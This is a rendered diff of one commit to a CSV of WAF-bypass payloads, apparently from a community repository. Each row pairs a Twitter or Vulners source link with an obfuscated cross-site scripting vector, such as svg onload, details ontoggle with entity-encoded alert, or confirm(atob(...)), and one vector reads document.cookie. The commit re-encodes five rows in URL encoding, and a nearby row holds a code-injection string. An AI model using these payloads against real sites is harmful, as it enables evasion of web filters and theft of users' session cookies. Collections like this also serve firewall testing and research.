

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -504,7 +504,7 @@ https://twitter.com/Dharamveer_____/status/1788492033675440375, %3CSVG/oNlY=1%20
 https://twitter.com/Dharamveer_____/status/1788492033675440375,%20%60%22%2F%2F%3E%3Cscript%3Ealert%28%29%3C%2Fscript%3E,xss
-https://twitter.com/its_Loksh_P/status/1792006779783848407, alert = window["al"+"ert"],xss
-https://twitter.com/Sharo_k_h/status/1792235995154514276, <details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle=&#x0000000000061;lert&#x000000028;origin&#x000029;>,xss
-https://twitter.com/0xRAYAN7/status/1793217107544424474, <svg onload=alert&#0000000040document.cookie> <svg/oNLY=1/**/On+ONLoaD=co\u006efirm&\#x28;\#x29;> <Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NLZCA6KQ=="))>,xss
-https://twitter.com/0xRAYAN7/status/1793217107544424474, &lt;svg/oNLY%3d1/**/On+ONLoaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b&gt;,xss
-https://twitter.com/0xRAYAN7/status/1793217107544424474, &lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NLZCA6KQ=="))&gt;,xss
+https://twitter.com/its_Loksh_P/status/1792006779783848407, alert%20%3D%20window%5B%22al%22%2B%22ert%22%5D,xss
+https://twitter.com/Sharo_k_h/status/1792235995154514276,%20%3Cdetails%20x%3Dxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx%3A2%20open%20ontoggle%3D%26%23x0000000000061%3Blert%26%23x000000028%3Borigin%26%23x000029%3B%3E,xss
+https://twitter.com/0xRAYAN7/status/1793217107544424474,%20%3Csvg%20onload%3Dalert%26%230000000040document.cookie%3E%20%3Csvg%2FoNLY%3D1%2F%2A%2A%2FOn%2BONLoaD%3Dco%5Cu006efirm%26%5C%23x28%3B%5C%23x29%3B%3E,xss
+https://twitter.com/0xRAYAN7/status/1793217107544424474,%20%26lt%3Bsvg%2FoNLY%253d1%2F%2A%2A%2FOn%2BONLoaD%253dco%5Cu006efirm%2526%2523x28%253b%2526%2523x29%253b%26gt%3B,xss
+https://twitter.com/0xRAYAN7/status/1793217107544424474,%20%26lt%3BSvg%20Only%3D1%20OnLoad%3Dconfirm%28atob%28%22Q2xvdWRmbGFyZSBCeXBhc3NLZCA6KQ%3D%3D%22%29%29%26gt%3B,xss
 https://vulners.com/githubexploit/C99986A2-7B57-5939-9BD1-AA95A6572AF3?utm_source=rss&utm_medium=rss&utm_campaign=rss, ;echo 1337; die;,xss
```
